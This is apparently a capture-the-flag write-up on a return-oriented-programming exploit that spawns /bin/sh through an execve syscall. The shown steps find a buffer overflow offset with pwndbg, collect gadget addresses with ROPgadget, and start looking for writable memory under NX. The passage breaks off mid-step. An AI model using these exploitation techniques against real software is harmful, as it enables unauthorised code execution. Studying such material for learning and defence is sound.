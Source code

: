 ```sh
rax: 0x3b or 59 (dec)
rdi: ptr location of `/bin/sh`
rdx: 0
rsi: 0
syscall
```

### Plan
1. Find padding needed to overwrite return address
2. Find addresses of gadgets needed
3. Find writable location for `/bin/sh`
4. move shell into writable location
5. run syscall

### Step 1 
To find the offset needed:
1. use `cyclic 200` in pwndbg (this generates the de bruijin sequence)
2. Enter `run` to execute the program
3. you should see that the `RSP` pointer contains `paaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l paaaaaaa
Finding cyclic pattern of 8 bytes: b'paaaaaaa' (hex: 0x7061616161616161)
Found at offset 120
```


### Step 2
Let's find the addresses of the gadgets we need.

```shell
$> ROPgadget --binary chall | grep -E ": pop (rdi|rsi|rdx|rax) ; ret" | grep -v "retf"
0x00000000004005af : pop rax ; ret
0x00000000004006a6 : pop rdi ; ret
0x000000000044b446 : pop rdx ; ret
0x0000000000410003 : pop rsi ; ret
```

```shell
$> ROPgadget --binary chall | grep ": syscall"                                        
0x000000000040127c : syscall
```

### Step 3
We need to find a writable location of the binary in memory. That is where we will put the shell command (also because we cannot run shellcode directly due to NX protection). This can be verified with the following:

```shell
```



Run the following in pwndbg after running the program:
